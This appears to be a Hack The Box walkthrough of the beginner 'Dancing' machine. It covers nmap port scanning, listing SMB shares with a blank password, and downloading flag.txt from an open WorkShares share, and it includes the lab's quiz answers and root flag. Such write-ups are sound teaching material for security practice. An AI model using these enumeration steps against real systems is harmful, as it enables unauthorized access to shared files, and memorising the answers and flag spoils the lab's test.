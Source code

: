```yaml
---
title: "Dance Walkthrough HTB"
layout: post
categories:
    - Hack The Box
    - Tier 0
---
```


Server Message Block (SMB) is a communication protocol originally developed in 1983 by Barry A. Feigenbaum at IBM and intended to provide shared access to files and printers across nodes on a network of systems running IBM's OS/2. It also provides an authenticated inter-process communication (IPC) mechanism. In 1987, Microsoft and 3Com implemented SMB in LAN Manager for OS/2, at which time SMB used the NetBIOS service atop the NetBIOS Frames protocol as its underlying transport.


---

💻️ The Target Machine is : 10.129.192.19

---

A tip I would suggest, if you don't want to constantly retype the IP address you can opt to export the address to a variable whose name can be of your chosing. 
In turn you can call the variable as `$[variableName]` the **$** is important.
Consider the command below:
```
-$ export IP=10.129.192.19 
```
The command is entered directly into the terminal that would be currently running and will be only active in that terminal.
To test the command:
```
-$ echo $IP
10.129.192.19
```

### Answering HTB Questions 

> What does the 3-letter acronym SMB stand for?
>> server message block

> What port does SMB use to operate at? 
>> 445

> What is the service name for port 445 that came up in our Nmap scan? 
>> microsoft-ds

> What is the 'flag' or 'switch' we can use with the SMB tool to 'list' the contents of the share? 
>> -L

> How many shares are there on Dancing? 
>> 4

> What is the name of the share we are able to access in the end with a blank password?
>> workshares

> What is the command we can use within the SMB shell to download the files we find? 
>> get

  

## -------------------------| ENUMARATION PHASE |------------------------------

```
-$ sudo nmap -p- --min-rate 5000 -sV -sC $IP -v -oN scan.nmap 

---snip---

PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 4h00m44s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-11-18T10:24:27
|_  start_date: N/A

---snip---

```
**`-p-`** ==> scan all the 65535 ports.
**`-sV`** ==> Enumerate the version of the service that is open.
**`-sC`** ==> Use default scrips to enumerate certain things like the version, OS
**`-v`** ==> Show me everything that the tool is doing. Being verbose.
**`-oN`** ==> On a normal file output everything there hence the filename [initial_scan]()

## ----------------------------| EXPLOITAION |---------------------------------

With what we have discovered we can try and gain foothold on the machine.

The first thing we can start with is listing the shares by assuming that the password as blank/empty:

```
-$ smbclient -L $IP

 Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk      
```
We see that there are 4 shares.
The next step is to access a share in our case we are going to access the workshares since it doesn't require any password we can pass in a blank password.

```
-$ smbclient //$IP/WorkShares

Password for [WORKGROUP\olapapi]:
Try "help" to get a list of possible commands.
smb: \> help

---snip---

blocksize      cancel         case_sensitive cd             chmod          
chown          close          del            deltree        dir            
du             echo           exit           get            getfacl        
geteas         hardlink       help           history        iosize         
lcd            link           lock           lowercase      ls             

---snip---

smb: \> ls
  .                                   D        0  Mon Mar 29 11:22:01 2021
  ..                                  D        0  Mon Mar 29 11:22:01 2021
  Amy.J                               D        0  Mon Mar 29 12:08:24 2021
  James.P                             D        0  Thu Jun  3 11:38:03 2021

smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 11:38:03 2021
  ..                                  D        0  Thu Jun  3 11:38:03 2021
  flag.txt                            A       32  Mon Mar 29 12:26:57 2021

smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)

```

> Submit root flag
>> 5f61c10dffbc77a704d76016a22f1664

